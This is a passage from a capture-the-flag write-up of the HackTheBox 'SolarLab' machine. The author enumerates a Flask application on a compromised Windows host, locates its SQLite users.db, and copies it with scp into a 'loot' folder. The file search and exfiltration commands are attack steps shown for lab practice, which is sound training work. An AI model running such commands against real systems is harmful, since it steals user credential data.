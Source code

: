 ```bash
-a----        11/18/2023   6:59 PM           7790 routes.py
-a----          5/2/2024   6:26 PM           3352 utils.py

PS C:\Users\blake\Documents\app> cat .\app.py

# app.py
from flask import Flask
from flask_sqlalchemy import SQLAlchemy
from flask_login import LoginManager
import os

app = Flask(__name__)
app.secret_key = os.urandom(64)
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///users.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
app.config['UPLOAD_FOLDER'] = 'c:\\users\\blake\\documents\\app\\reports'
login_manager = LoginManager(app)
login_manager.login_view = 'login'
[...]
```

### SQLITE database

Check database file location

```bash
PS C:\Users\blake\Documents\app> (ls -Force -Recurse . -File 2>$null) | select Mode,@{N='Owner'; E={$_.GetAccessControl().Owner}},LastWriteTime,Length,FullName | sort LastWriteTime | ft -wrap

Mode   Owner                  LastWriteTime          Length FullName
----   -----                  -------------          ------ --------
[...]
-a---- BUILTIN\Administrators 11/17/2023 12:11:50 PM  12288 C:\Users\blake\Documents\app\reports\instance\users.db
-a---- SOLARLAB\blake         11/18/2023 6:59:40 PM    7790 C:\Users\blake\Documents\app\routes.py
-a---- BUILTIN\Administrators 5/2/2024 12:30:27 PM    12288 C:\Users\blake\Documents\app\instance\users.db
-a---- SOLARLAB\blake         5/2/2024 1:13:06 PM      6540 C:\Users\blake\Documents\app\__pycache__\utils.cpython-311.pyc
-a---- BUILTIN\Administrators 5/2/2024 5:09:19 PM     10121 C:\Users\blake\Documents\app\__pycache__\routes.cpython-311.pyc
-a---- SOLARLAB\blake         5/2/2024 6:23:41 PM      2793 C:\Users\blake\Documents\app\__pycache__\app.cpython-311.pyc
-a---- SOLARLAB\blake         5/2/2024 6:26:05 PM      3352 C:\Users\blake\Documents\app\utils.py
```

Get `users.db`

```bash
┌──(bravosec㉿fsociety)-[~/htb/SolarLab]
└─$ scp -J 127.0.0.1:443 solarlab.blake.solarlab:'C:/Users/blake/Documents/app/instance/users.db' loot/users.db
Warning: Permanently added '[127.0.0.1]:443' (ED25519) to the list of known hosts.
Warning: Permanently added 'solarlab.blake.solarlab' (ED25519) to the list of known hosts.
users.db
```
